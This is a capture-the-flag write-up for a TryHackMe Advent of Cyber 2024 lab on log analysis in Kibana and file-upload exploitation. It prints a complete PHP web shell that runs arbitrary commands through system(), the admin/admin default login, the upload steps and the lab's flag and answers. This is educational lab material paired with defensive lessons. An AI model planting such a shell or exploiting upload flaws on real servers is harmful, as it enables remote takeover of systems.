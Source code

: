 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis


## Challenge Overview 🎅

Day 3 gave me the chance to wear both blue team and red team hats. The Frosty Pines Resort SOC flagged some suspicious activity on their web server. My job was to figure out how the web shell got there and who accessed it, then take on the role of an attacker to exploit the same vulnerability and grab the hidden flag.

## Objectives 🎯

1. Investigate logs in ELK to figure out how the attack happened.
2. Identify the IP that accessed the web shell.
3. Recreate the attack by exploiting a file upload vulnerability to retrieve the flag.

## Step 1: Investigating the Logs (Blue Team)

### Breaking Down the Process

1. **Access Kibana:**  
   Opened `http://MACHINE_IP:5601` using the browser on the AttackBox. 
2. **Select the Collection:**  
   Chose the **frostypines-resorts** index from the Discover tab.
3. **Adjust the Timeframe:**  
   Set the range to **October 1, 2024, 00:00 – October 3, 2024, 20:00**.
4. **Add Relevant Fields:**  
   Added `requests` and `clientip` fields to focus on the activity we care about.
5. **Narrow the Search:**  
   Searched for `"shell.php"` in the `requests` field to find related logs.

### What I Found
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

## Step 2: Exploiting the RCE Vulnerability (Red Team)

### Steps to Pull Off the Exploit

1. **Edit the Hosts File:**  
   Added the following to `/etc/hosts`:  
   ```
   MACHINE_IP frostypines.thm
   ```
   This let me access the website by name instead of IP.
2. **Log In to the Site:**  
   Went to `http://frostypines.thm` and logged in with:  
   - **Username:** admin@frostypines.thm  
   - **Password:** admin  
3. **Prepare the Web Shell:**  
   Saved the following PHP code as `shell.php`:
   ```
   <html>
   <body>
   <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute">
   </form>
   <pre>
   <?php
       if(isset($_GET['command'])) 
       {
           system($_GET['command'] . ' 2>&1'); 
       }
   ?>
   </pre>
   </body>
   </html>
   ```
4. **Upload the Shell:**  
   Uploaded `shell.php` as the room image via the “Add Room” section.
5. **Locate the Web Shell:**  
   Verified it was uploaded to:  
   `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**  
   Accessed the shell and ran the following command:  
   ```
   cat flag.txt
   ```

### The Result
- **What is the contents of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Lessons Learned 🌟

### Blue Team Takeaways
- **Log Analysis Is Essential:** ELK made it easier to sift through logs, filter out noise, and pinpoint the attacker’s activity.
- **Adding Context Matters:** Including fields like `requests` and `clientip` helped narrow the search quickly.
- **Correlating Activity:** Connecting requests with specific IPs and actions made the investigation much more effective.

### Red Team Takeaways
- **Unrestricted File Uploads Are Risky:** Not validating uploads is a massive vulnerability that attackers can exploit for RCE.
- **Web Shells Are Simple but Powerful:** A small PHP script can give full control over a system, reinforcing the need for proper server security.
- **Credentials Are Key:** Using weak or default credentials like `admin/admin` is just inviting attackers in.

## Tools 🛠️

- **[Elastic SIEM](https://www.elastic.co/security/siem):** Used for log analysis to track down suspicious activity and access points.  
- **Text Editor:** Created the PHP web shell used in the exploit.  
- **Browser:** Accessed and navigated the Frosty Pines site during the red team portion of the challenge.

## Final Thoughts 🎁

This task showed the importance of seeing things from both perspectives: defending against and exploiting vulnerabilities. ELK made it easier to understand what happened from the logs, and recreating the attack demonstrated how simple mistakes, like not validating uploads, can have serious consequences. I’m excited to see what tomorrow’s challenge brings!

## Table of Contents

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [More Days to Come!](#)
